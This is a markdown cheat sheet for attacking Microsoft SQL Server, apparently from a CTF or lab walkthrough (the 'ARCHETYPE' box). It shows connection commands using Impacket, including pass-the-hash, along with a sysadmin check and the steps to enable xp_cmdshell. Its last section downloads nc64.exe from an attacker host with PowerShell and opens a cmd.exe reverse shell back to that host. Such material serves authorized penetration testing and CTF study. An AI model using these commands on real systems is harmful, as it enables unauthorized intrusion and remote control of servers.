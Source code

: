 
# 🗃️ MSSQL Access & Exploitation Reference

This cheat sheet provides connection methods and post-exploitation commands for Microsoft SQL Server, especially useful during penetration testing or CTFs.

---

## 🔐 Connecting to MSSQL

### 🔸 Using Impacket's `mssqlclient.py`
```bash
# Windows Auth (using domain/computer name)
python3 mssqlclient.py ARCHETYPE/sql_svc@<TARGET_IP> -windows-auth

# SQL Auth (username/password)
python3 mssqlclient.py sql_svc@<TARGET_IP> -p <password>

# If using NTLM hash
python3 mssqlclient.py sql_svc@<TARGET_IP> -hashes :<NTLM>
```

### 🔸 Using `sqsh` (Linux SQL shell)
```bash
sqsh -S <TARGET_IP> -U sql_svc
```

### 🔸 Using `tsql` from FreeTDS
```bash
tsql -H <TARGET_IP> -p 1433 -U sql_svc
```

---

## 🔎 Post-Exploitation

### ✅ Check for sysadmin privileges
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-- Returns 1 if user is sysadmin
```

---

## 💥 Enable Command Execution with `xp_cmdshell`

```sql
-- Enable advanced options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Run command
EXEC xp_cmdshell 'whoami';
```

### 📝 Upload via PowerShell & Run Reverse Shell
```sql
-- PowerShell: Download nc64.exe
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://<KALI_IP>/nc64.exe -outfile nc64.exe";

-- Execute reverse shell
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe <KALI_IP> <PORT>";
```

---

🧠 **Tip**: Always check `IS_SRVROLEMEMBER`, and enable `xp_cmdshell` only if necessary. Clean up after use.
